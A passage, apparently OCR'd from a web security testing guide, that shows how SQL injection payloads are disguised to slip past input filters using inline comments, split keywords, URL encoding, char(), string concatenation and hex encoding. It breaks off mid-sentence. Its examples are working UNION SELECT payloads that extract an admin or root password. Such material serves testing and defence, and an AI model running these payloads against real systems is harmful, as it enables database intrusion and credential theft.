     ' UNION SELECT password FROM Users WHERE name='admin'--

Adding SQL inline comments will be.

    '/**/UNION/**/SELECT/**/password/**/FROM/**/Users/**/WHERE/**/name/**/LIKE/**/'admin'--

    '/**/UNI/**/ON/**/SE/**/LECT/**/password/**/FROM/**/Users/**/WHE/**/RE/**/name/**/LIKE/**/'admin'--

#### URL Encoding

Use the online URL encoding to encode the SQL statement

<http://meyerweb.com/eric/tools/dencoder/>

    ' UNION SELECT password FROM Users WHERE name='admin'--

The URL encoding of the SQL injection statement will be

    %27%20UNION%20SELECT%20password%20FROM%20Users%20WHERE%20name%3D%27admin%27--

#### Character Encoding

Char() function can be used to replace English char. For example,
char(114,111,111,116) means root

    ' UNION SELECT password FROM Users WHERE name='root'--

To apply the Char(), the SQL injeciton statement will be

    ' UNION SELECT password FROM Users WHERE name=char(114,111,111,116)--

#### String Concatenation

Concatenation breaks up SQL keywords and evades filters. Concatenation
syntax varies based on database engine. Take MS SQL engine as an example

```
   select 1
```

The simple SQL statement can be changed as below by using concatenation

```
   EXEC('SEL' + 'ECT 1')
```

#### Hex Encoding

Hex encoding technique uses Hexadecimal encoding to replace original SQL
statement char. For example, 'root' can be represented as 726F6F74

```
      Select user from users where name = 'root'
```

The SQL statement by using HEX value will be:

```
      Select user from users where name = 726F6F74
```

or
